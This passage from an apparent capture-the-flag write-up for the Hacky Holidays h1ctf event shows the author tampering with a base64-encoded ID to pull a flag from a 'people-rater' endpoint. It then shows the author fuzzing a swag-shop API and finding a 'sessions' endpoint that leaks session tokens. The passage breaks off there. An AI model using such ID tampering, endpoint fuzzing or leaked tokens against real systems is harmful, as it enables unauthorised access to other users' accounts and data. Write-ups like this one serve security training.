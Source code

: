 ...and supplied the resultant value to the `entry` endpoint: [/people-rater/entry?id=eyJpZCI6MX0K](https://hackyholidays.h1ctf.com/people-rater/entry?id=eyJpZCI6MX0K), and got a nice response:

```json
{"id":"eyJpZCI6MX0=","name":"The Grinch","rating":"Amazing in every possible way!","flag":"flag{b705fb11-fb55-442f-847f-0931be82ed9a}"}
```

There was the flag!

Flag: `flag{b705fb11-fb55-442f-847f-0931be82ed9a}`

## Flag 4: Swag Shop

A quick browse of the swag shop source code revealed the existence of an API:

![/api](/assets/2021-01-07-hacky-holidays/flag4.a.png)

I decided to try a bit of fuzzing to reveal any other API endpoints that might help me to progress.

Fuzzing with:

```bash
scout url -s https://hackyholidays.h1ctf.com/swag-shop/api
```

...revealed:

```
/swag-shop/api/user
/swag-shop/api/sessions
```

Hitting the `user` endpoint gave a 400 status and told me I was missing required parameters. I put that to one side for a moment and started to look at `sessions` instead.

The `sessions` endpoint returned a list of sessions!

```json
{"sessions":["eyJ1c2VyIjpudWxsLCJjb29raWUiOiJZelZtTlRKaVlUTmtPV0ZsWVRZMllqQTFaVFkxTkRCbE5tSTBZbVpqTW1ObVpHWXpNemcxTVdKa1pEY3lNelkwWlRGbFlqZG1ORFkzTkRrek56SXdNR05pWmpOaE1qUTNZMlJtWTJFMk4yRm1NemRqTTJJMFpXTmxaVFZrTTJWa056VTNNVFV3WWpka1l6a3lOV0k0WTJJM1pXWmlOamsyTjJOak9UazBNalU9In0=","eyJ1c2VyIjpudWxsLCJjb29raWUiOiJaak0yTXpOak0ySmtaR1V5TXpWbU1tWTJaamN4TmpkbE5ETm1aalF3WlRsbVkyUmhOall4TldNNVkyWTFaalkyT0RVM05qa3hNVFEyTnprMFptSXhPV1poTjJaaFpqZzBZMkU1TnprMU5UUTJNek16WlRjME1XSmxNelZoWkRBME1EVXdZbVEzTkRsbVpURTRNbU5rTWpNeE16VTBNV1JsTVRKaE5XWXpPR1E9In0=","eyJ1c2VyIjoiQzdEQ0NFLTBFMERBQi1CMjAyMjYtRkM5MkVBLTFCOTA0MyIsImNvb2tpZSI6Ik5EVTBPREk1TW1ZM1pEWTJNalJpTVdFME1tWTNOR1F4TVdFME9ETXhNemcyTUdFMVlXUmhNVGMwWWpoa1lXRTNNelUxTWpaak5EZzVNRFEyWTJKaFlqWTNZVEZoWTJRM1lqQm1ZVGs0TjJRNVpXUTVNV1E1T1dGa05XRTJNakl5Wm1aak16WmpNRFEzT0RrNVptSTRaalpqT1dVME9HSmhNakl3Tm1Wa01UWT0ifQ==","eyJ1c2VyIjpudWxsLCJjb29raWUiOiJNRFJtWVRCaE4yRmlOalk1TUdGbE9XRm1ZVEU0WmpFMk4ySmpabVl6WldKa09UUmxPR1l3TWpJMU9HSXlOak0xT0RVME5qYzJZVGRsWlRNNE16RmlNMkkxTVRVek16VmlNakZoWXpWa01UYzRPREUzT0dNNFkySmxPVGs0TWpKbE1ESTJZalF6WkRReE1HTm1OVGcxT0RReFpqQm1PREJtWldReFptRTFZbUU9In0=","eyJ1c2VyIjpudWxsLCJjb29raWUiOiJNMlEyTURJek5EZzVNV0UwTjJNM05ESm1OVEl5TkdNM05XVXhZV1EwTkRSbFpXSTNNVGc0TWpJM1pHUmtNVGxsWlRNMlpEa3hNR1ZsTldFd05tWmlaV0ZrWmpaaE9EZzRNRFkzT0RsbVpHUmhZVE0xWTJJeU1HVmhNakExTmpkaU5ERmpZekJoTVdRNE5EVTFNRGM0TkRFMVltSTVZVEpqT0RCa01qRm1OMlk9In0=","eyJ1c2VyIjpudWxsLCJjb29raWUiOiJNV1kzTVRBek1UQmpaR1k0WkdNd1lqSTNaamsyWm1Zek1XSmxNV0V5WlRnMVl6RTBNbVpsWmpNd1ltSmpabVE0WlRVMFkyWXhZelZtWlRNMU4yUTFPRFkyWWpGa1ptRmlObUk1WmpJMU0yTTJNRFZpTmpBMFpqRmpORFZrTlRRNE4yVTJPRGRpTlRKbE1tRmlNVEV4T0RBNE1qVTJNemt4WldOaE5qRmtObVU9In0=","eyJ1c2VyIjpudWxsLCJjb29raWUiOiJNRE00WXpoaU4yUTNNbVkwWWpVMk0yRmtabUZsTkRNd01USTVNakV5T0RobE5HRmtNbUk1T1RjeU1EbGtOVEpoWlRjNFlqVXhaakl6TjJRNE5tUmpOamcyTm1VMU16VmxPV0V6T1RFNU5XWXlPVGN3Tm1KbFpESXlORGd5TVRBNVpEQTFPVGxpTVRZeU5EY3pOakZrWm1VME1UZ3hZV0V3TURVMVpXTmhOelE9In0=","eyJ1c2VyIjpudWxsLCJjb29raWUiOiJPR0kzTjJFeE9HVmpOek0xWldWbU5UazJaak5rWmpJd00yWmpZemRqTVdOaE9EZzRORGhoT0RSbU5qSTBORFJqWlRkbFpUZzBaVFV3TnpabVpEZGtZVEpqTjJJeU9EWTVZamN4Wm1JNVpHUmlZVGd6WmpoaVpEVmlPV1pqTVRWbFpEZ3pNVEJrTnpObU9ESTBPVE01WkRNM1kySmpabVk0TnpFeU9HRTNOVE09In0="]}
```
